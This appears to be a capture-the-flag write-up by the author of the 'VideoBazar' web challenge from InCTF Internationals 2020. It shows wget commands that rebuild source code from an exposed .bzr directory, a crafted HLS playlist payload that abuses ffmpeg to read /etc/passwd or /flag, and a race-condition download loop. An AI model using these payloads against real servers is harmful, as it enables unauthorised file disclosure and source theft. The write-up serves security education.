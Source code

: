 ```yaml
---
title: VideoBazar - InCTF Internationals 2020
date: 2020-08-26 10:54:45
author: Captain-Kay
author_url: https://twitter.com/Captainkay11
categories:
 - Web Exploitation
tags:
 - SSRF
 - bzr
 - ffmpeg
 - InCTFi
---
```


**tl;dr**

+ Part-1: .bzr file retrival using any tool
+ Part-1: exploiting ssrf via ffmpeg to read /flag file to a video and download it before it gets deleted

<!--more-->


**Challenge Author:** [Captain-Kay](https://twitter.com/Captainkay11)

**Source:** [here](VideoBazar.zip)

In this challenge the players are welcomed with a harmless looking index.php page
which has only 1 textbox and some text saying `ENTER THE SUPER SECRET KEY`
The First Step is to find the hidden `.bzr` (Use anything like dirb gobuster dirbuster) folder and a quick google will reveal to you that
.bzr is basically a open source version control system. Basically its somewhat the same as .git

After Finding .bzr the next step would be to retrive the source code. But i couldnt find any tools to do it so u might have to manually get it 

steps to follow to get source code
```
1. Install bzr on your system
2. mkdir inctf
3. cd inctf
4. bzr init
5. echo 'testcheck' >file
6. bzr add
7. brz commit
8. rm file
```
So Now you have a bzr repository with the .bzr directory
Next 
```
9. cd .bzr/branch
10. rm last-revision
11. wget http://35.211.92.233:8001/.bzr/branch/last-revision
```
Basically we are getting and replacing our `last-revision` with the one on the server
We follow the same steps for `dirstate` and `pack-names`
```
12. cd ../checkout
13. rm dirstate
14. wget http://35.211.92.233:8001/.bzr/checkout/dirstate
15. cd ../repository
16. rm pack-names
17. wget http://35.211.92.233:8001/.bzr/repository/pack-names
```
So now we have all the important files which point to the commit history
Next we do a bzr check
which will spit out all the  name of the missing files

then simply wget them to the approprite folder
```
cd .bzr/repository/indces/
wget http://35.211.92.233:8001/.bzr/repository/indices/f66475e1bc8c3b9c86e53a761cb536df.rix
wget http://35.211.92.233:8001/.bzr/repository/indices/86b254a3ef28b93ac82c43c31283f23b.rix
wget http://35.211.92.233:8001/.bzr/repository/indices/1035bef5d03b940a3385fccc0c082001.rix
wget http://35.211.92.233:8001/.bzr/repository/indices/f66475e1bc8c3b9c86e53a761cb536df.iix
wget http://35.211.92.233:8001/.bzr/repository/indices/86b254a3ef28b93ac82c43c31283f23b.iix
wget http://35.211.92.233:8001/.bzr/repository/indices/1035bef5d03b940a3385fccc0c082001.iix
wget http://35.211.92.233:8001/.bzr/repository/indices/f66475e1bc8c3b9c86e53a761cb536df.cix
wget http://35.211.92.233:8001/.bzr/repository/indices/86b254a3ef28b93ac82c43c31283f23b.cix
wget http://35.211.92.233:8001/.bzr/repository/indices/1035bef5d03b940a3385fccc0c082001.cix
wget http://35.211.92.233:8001/.bzr/repository/indices/f66475e1bc8c3b9c86e53a761cb536df.tix
wget http://35.211.92.233:8001/.bzr/repository/indices/86b254a3ef28b93ac82c43c31283f23b.tix
wget http://35.211.92.233:8001/.bzr/repository/indices/1035bef5d03b940a3385fccc0c082001.tix

cd ../packs
wget http://35.211.92.233:8001/.bzr/repository/packs/1035bef5d03b940a3385fccc0c082001.pack
wget http://35.211.92.233:8001/.bzr/repository/packs/86b254a3ef28b93ac82c43c31283f23b.pack
wget http://35.211.92.233:8001/.bzr/repository/packs/f66475e1bc8c3b9c86e53a761cb536df.pack
```

Then do 
`bzr status`
and `bzr revert`
And you will have the source files of the challenge

After Getting the source files you can get the 
{`SUPER SECRET PASSWORD`==>`THIS_IS_THE_NEW_WAY_TO_DO_STUFF`}

## Now To the Second Part of the challenge
In the source code we see its using ffmpeg to convert the videos,
and it has ALLOW-EXTENTIONS set to  all,
And if you research a bit more u will find that ffmpeg has the ability/bug that it converts txt files to video files too.
Now we need to know how HLS playlist is handled
```
1. When processing a playlist, ffmpeg links all the segment contents together and processes them as a separate file
2. Ffmpeg uses the first segment of playlist to determine the file type
3. Ffmpeg uses a special way to process files with. TXT suffix. It will try to print the contents of the file on the screen as a terminal
```
So basically 
```
EXTM3U
EXT-X-MEDIA-SEQUENCE:0
EXTINF:1.0
GOD.txt

EXTINF:1.0
file:///etc/passwd

EXT-X-ENDLIST
```
> Ffmpeg sees the `EXTM3U` tag in the GAB2 subtitle block, and confirms that the file type is HLS playlist.
> Now even though the file God.txt doesnt exist  name is enough for ffmpeg to detect the file type as TXT
>Ffmpeg links the contents of all segments of the playlist together, because only the file / etc / passwd actually exists, so the final content is the content of the / etc / passwd file
> Because the file type is TXT, ffmpeg draws a terminal to print the file.

Now file:// is blacklisted in the source code No problem
we can just direclty do `/etc/passwd`

So now we have file read on the system 
###  how do we retrive the file 
if you see there is a sleep statement before the deletion of the files
and the file names are always the same (md5 of the given filename)
So we can easily execute a race condition to download the file before it gets deleted

## FINAL PAYLOAD FOR SECOND PART
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0
GOD.txt
#EXTINF:1.0
/flag
#EXT-X-ENDLIST
```
>Paste into a file with .mp4 extention (any extention will do) 
>convert to something 
>Race to download the file and read the flag


and Race condition

```
while 1
do 
wget http://35.211.92.233:8001/upload/<FILE>.<EXTENTIOn>
done
```
HOPE YOU ENJOYED IT :)



## REFERENCES USE TO MAKE CHALLENGE

>https://ctftime.org/writeup/13380
>https://www.blackhat.com/docs/us-16/materials/us-16-Ermishkin-Viral-Video-Exploiting-Ssrf-In-Video-Converters.pdf
>https://developpaper.com/analysis-of-ffmpeg-arbitrary-file-reading-vulnerability/
